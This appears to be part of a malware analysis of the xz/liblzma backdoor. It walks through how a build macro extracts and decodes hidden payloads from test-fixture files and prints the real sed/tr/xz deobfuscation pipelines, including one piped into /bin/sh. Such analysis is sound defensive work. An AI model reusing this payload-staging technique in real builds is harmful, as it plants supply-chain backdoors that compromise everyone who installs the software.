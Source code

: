 First, we focus on the backdoor compilation script [src]/m4/build-to-host.m4 file .This is an m4 macro file that will be macro-expanded and executed along with the configure && make command. The code of AC_DEFUN(gl_BUILD_TO_HOST_INIT) will be executed first.


Figure 4–2 ：Creation of Backdoor File by build-to-host Script
Here, a grep command is used to search for backdoor files with content matching the feature #{4}[[:alnum:]]{5}#{4}$, specifically [src]/tests/files/bad-3-corrupt_lzma2.xz. The test execution as follows:"


Figure 4–3: Search for the backdoor file bad-3-corrupt_lzma2.xz
2.bad-3-corrupt_lzma2.xz

Partial execution of the code AC_DEFUN(gl_BUILD_TO_HOST). Here, the system environment is first checked and modified, followed by extraction of file content from the backdoor file bad-3-corrupt_lzma2.xz. Key code snippets are as follows:


Figure 4–4: Extraction of content from bad-3-corrupt_lzma2.xz
In context, the actual execution of the line of code is as follows: using the sed command to read the content of the bad-3-corrupt_lzma2.xz file, utilizing the tr command to replace corresponding characters according to the mapping [\t -*] => [ \t*-], and additionally employing the xz command for decompression.

sed "r\n" bad-3-corrupt_lzma2.xz | tr "\t \-_" " \t_\-" | xz -d
After decompression, you will obtain a bash script file named helloworld.sh, with the following content:


Figure 4–5: Script Extracted from bad-3-corrupt_lzma2.xz
Here, the build-to-host command is registered using AC_CONFIG_COMMANDS. Subsequently, calling this command will execute the code eval $gl_config_gt, which refers to the helloworld.sh script file.

3.good-large_compressed.lzma

The helloworld.sh script similarly begins with environment checks and uses the xz command to decompress the backdoor file[src]/tests/files/good-large_compressed.lzma. It then employs theheadandtail commands to extract parts of the file content, followed by the tr command to replace characters in the command content. Finally, it uses the xz command to decompress the tested file. The key commands are organized as follows:

xz -dc $srcdir/tests/files/good-large_compressed.lzma |
eval $i |
tail -c +31233 |
tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377") |
xz -F raw --lzma1 -dc |
/bin/sh
Here, decompression using the command xz -F raw --lzma1 -dc results in a new bash script file named decompressed.sh.

4.decompressed.sh

The code in decompressed.sh script is quite extensive, primarily focusing on environment checks and compatibility adjustments. The most critical code comprises three segments. The first segment of code is as follows:


Figure 4–6: Pre-embedded Code in the Decompressed .sh Script
Still following familiar operations, usinggrep to search for matching content in the source code folder, extracting content with the cut command, replacing characters with the trcommand, and finally decompressing using the xz command. However, we didn't find any files matching the criteria in the source code folder. This could be code pre-embedded by attackers for future attacks.
